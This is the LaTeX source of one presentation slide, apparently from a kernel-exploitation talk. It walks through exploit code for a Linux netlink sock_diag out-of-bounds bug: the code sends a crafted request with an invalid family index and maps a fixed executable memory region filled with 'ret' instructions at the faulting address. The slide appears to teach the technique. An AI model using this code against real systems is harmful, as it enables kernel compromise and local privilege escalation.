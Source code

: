 \documentclass[xcolor=dvipsnames]{beamer}
\newcommand{\heading}[1]{\textbf{\textcolor{BurntOrange}{#1}}}
\newcommand{\code}[2][]{\lstinline[columns=fullflexible, basicstyle=\ttfamily,
	#1]$#2$}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Mapping the Address}

\heading{The Oops was on \code{0x0000000100012a5c}, map it!}
\begin{lstlisting}
  memset(&req, 0, sizeof(req));
  req.nlh.nlmsg_len = sizeof(req);
  req.nlh.nlmsg_type = SOCK_DIAG_BY_FAMILY;
  req.nlh.nlmsg_flags = NLM_F_ROOT|NLM_F_MATCH|NLM_F_REQUEST;
  req.nlh.nlmsg_seq = 123456;
  req.r.sdiag_family = 120;
\end{lstlisting}
\begin{lstlisting}[backgroundcolor=\color{mygray}]
  unsigned long mmap_start, mmap_size;
  mmap_start = 0x0000000100000000;
  mmap_size = 0x2000000;

  if (mmap((void *)mmap_start, mmap_size, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS, -1, 0) == MAP_FAILED)
    return 1;

  memset((void *)mmap_start, 0xc3, mmap_size); /* 0xc3 is 'ret' */
\end{lstlisting}
\begin{lstlisting}
  if ((fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG)) < 0)
    return 1;

  if (send(fd, &req, sizeof(req), 0) < 0)
    return 1;
\end{lstlisting}

\end{frame}
\end{document}

